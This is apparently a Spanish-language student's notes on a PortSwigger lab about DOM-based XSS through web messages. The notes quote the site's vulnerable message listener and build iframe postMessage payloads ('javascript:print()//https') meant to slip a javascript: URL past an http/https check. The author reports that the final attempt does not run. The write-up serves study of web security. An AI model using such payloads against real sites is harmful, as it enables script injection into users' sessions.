 ![](assets/2022-07-18-18-32-55.png)

## Lab: DOM XSS using web messages and a JavaScript URL

This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.

- usar el redirection
- usar javascript

Nada más entrar me salta el chivato

![](assets/2022-07-18-18-35-48.png)

Aún así seguimos navegando

![](assets/2022-07-18-18-37-27.png)

```js
<script>
                        window.addEventListener('message', function(e) {
                            var url = e.data;
                            if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                                location.href = url;
                            }
                        }, false);
                    </script>
```

```js
//Volvemos a usar nuestra base y cambiamos nuestro datos y como queremos ejecutarlo

<iframe src="//vulnerable-website" onload="this.contentWindow.postMessage('print()','*')">

// según los apuntes dice que podemos ejecutar algo así como javascript:lo que queremos.

<iframe src="https://exploit-0a9000100450093cc08a6661012f004a.web-security-academy.net/exploit" onload="this.contentWindow.postMessage('javascript:print()','*')">
```
```js
// Ahora tenemos que lanzar el error. Según hemos visto que para que haga el location necesita un http o https... pero si es válido nos lo va a redireccionar a donde pongamos en vez de imprimir. Lo que hacemos es añadirlo y comentarlo.

<iframe src="https://exploit-0a9000100450093cc08a6661012f004a.web-security-academy.net/exploit" onload="this.contentWindow.postMessage('javascript:print()//https','*')">
```
Lo mando pero no ejecuta nada
